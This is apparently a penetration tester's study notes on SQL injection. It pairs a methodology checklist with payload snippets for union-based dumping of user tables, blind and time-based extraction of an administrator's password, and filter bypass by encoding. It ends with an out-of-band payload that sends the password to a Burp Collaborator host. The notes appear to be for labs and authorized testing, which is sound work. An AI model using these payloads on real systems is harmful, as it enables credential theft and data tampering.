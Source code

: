 ```yaml
---
title: "SQLi"
layout: notes
tags:
  - webapp
  - methodology
  - sqli
  - FI_http-headers
  - FI_user-input
  - FI_parameters
  - Co_dos
  - Co_rce
  - Co_sensitive-info-disclosure
  - Co_data-manipulation
---
```

## Summary

When a web application stores, indexes, or otherwise interacts with information, that is coming from some sort of a database. The backend database may define what attacks are allowed but each framework is vulnerable to unsanitized user input which can manipulate the backend queries taking place. This vulnerability can be found on usernames, search functions, profile descriptions, login portals, password resets, and more. Anywhere a user is interacting with a database is a potential attack surface.

## Methodology

When looking for SQL injection ask/try the following:
- [ ] **Are there any login portals to test?**
- [ ] **Are there any search functions?**
- [ ] try adding a single `'` or `"`
	- [ ] can you induce an error or a different response
- [ ] IN A PENTEST test with sqlmap
- [ ] try to force an error
- [ ] try a conditional response
- [ ] try for a time delay
- [ ] **Is there a block list?**
	- [ ] if there is one in place try to encode, double encode, alternate characters and payloads

<br>
IF NO RESULTS BY NOW
- [ ] check the code for potential vulnerabilities
	- [ ] UTF encoding might be able to be bypassed like in [CVE-2025-1094](https://www.postgresql.org/support/security/CVE-2025-1094/)
		- [ ] tldr; the check for different byte lengths of characters could be bypassed by `c0 27`

<br>
IF SQLi FOUND
- [ ] try commenting out the rest of a query
- [ ] find out how many columns with `ORDER BY 1` go until error
- [ ] find the injectable column `?id=1' union select 1,version(),3`
- [ ] try finding the version of the database
- [ ] try to induce an error for the original query
	- [ ] this causes union or and queries to populate fields over the original
- [ ] try checking for logged in users
- [ ] try `union select 'file'`
- [ ] grab all databases
- [ ] check tables from interesting databases
- [ ] check columns from interesting tables
- [ ] check if you can change something
	- [ ] might need to add `commit;` at the end of an insert of update statement

## Capabilities

Sensitive Data Exposure  
Data Manipulation  
Integrity Compromise  
Remote Code Execution  
Denial of Service  

## Found In

Parameters  
User Input  
HTTP Headers  

## Tools/Examples

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

simple tests
```
' and '1'='1
' and '1'='2
'+union+select+table_name,null+from+information_schema.tables--
'+union+select+column_name,null+from+information_schema.columns+where+table_name+=+'users_ewfidw'--
```

simple escape
```
'+or+1=1--
'--
(remember ending space for mysql)
```

database + version identification
```
'+union+select+banner_full,'abc'+from+v$version--
'+union+select+@@version,@@version--+

version()
' and version() like binary '8.0.3%'#
```

union cheatsheet
```
' order by 5--
' union select null,null,null,null--
' union select 'd',null,null,null--
(when injecting oracle append 'from dual')

' union select username, password from users--
```

concat
```
concat(column1,'~', column2)
group_concat() can be used to dump multiple entries as 1
```

blind with feedback
```
' and '1'='1
' and '1'='2
' and (select 'a' from users where username = 'administrator' and length(password)>1)='a
' and (select substring(password,2,1) from users where username='administrator')='a
' || (select '' from dual) || '
' and (select substr(password,1,1) from users where username='administrator')='a
natas16" AND SUBSTRING((SELECT password FROM users WHERE Username = 'natas16'), 1, 1) = "§a§
natas16" and password like binary "FUZZ%
```

conditional Responses
```
' and (select case when (1=2) then 1/0 else 'a' end)='a
' || (select case when (1=2) then 1/0 else 'a' end from dual)='a' || '
' || (select case when ((select substr(password,1,1) from users where username='administrator')='a') then to_char(1/0) else '' end from dual) || '
```

XML
```
&#117;nion &#115;elect &#112;assword &#102;rom users &#119;here username = &apos;&#97;dministrator&apos;
(use a lot of html character encoding on keywords)
```

time delays
```
'; IF (1=1) WAITFOR DELAY '0:0:10'--
'|| pg_sleep(10)--

'|| (select case when ((select substring(password,1,1) from users where username='administrator')='a') then pg_sleep(3) else pg_sleep(0) end) --
```

out-of-band exfil
```
&apos; || (SELECT EXTRACTVALUE(xmltype(&apos;&lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM &quot;http://'||(select password from users where username = 'administrator')||'.0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/&quot;&gt; %remote;]&gt;&apos;),&apos;/l&apos;) FROM dual)--
```

